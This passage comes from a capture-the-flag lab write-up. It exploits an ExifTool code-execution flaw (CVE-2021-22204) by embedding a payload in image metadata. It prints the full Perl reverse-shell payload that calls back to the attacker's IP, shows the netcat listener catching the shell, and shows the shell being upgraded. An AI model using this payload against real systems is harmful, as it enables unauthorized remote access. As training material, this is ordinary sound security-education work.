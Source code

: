 
Running that, it is using a Perl reverse shell (which makes sense, given it’s
a command injection in Perl, so I can count on Perl being installed):

    
    
    oxdf@hacky$ python /opt/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py -s 10.10.14.6 443
    
            _ __,~~~/_        __  ___  _______________  ___  ___
        ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
            |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
    _V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
        
    UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
    PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(443,inet_aton('10.10.14.6')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
    DEPENDS: Dependencies for exploit are met!
    PREPARE: Payload written to file!
    PREPARE: Payload file compressed!
    PREPARE: DjVu file created!
    PREPARE: JPEG image created/processed!
    PREPARE: Exiftool config written to file!
    EXPLOIT: Payload injected into image!
    CLEANUP: Old file artifacts deleted!
    SUCCESS: Exploit image written to "image.jpg"
    

I’ll start `nc` listening on 443, and upload this new image. The site hangs,
but there’s a shell at `nc`:

    
    
    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.140 60630
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    

I’ll upgrade my shell using `script` and `stty`:

    
    
    $ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@meta:/var/www/dev01.artcorp.htb/metaview$ 
    

## Shell as thomas
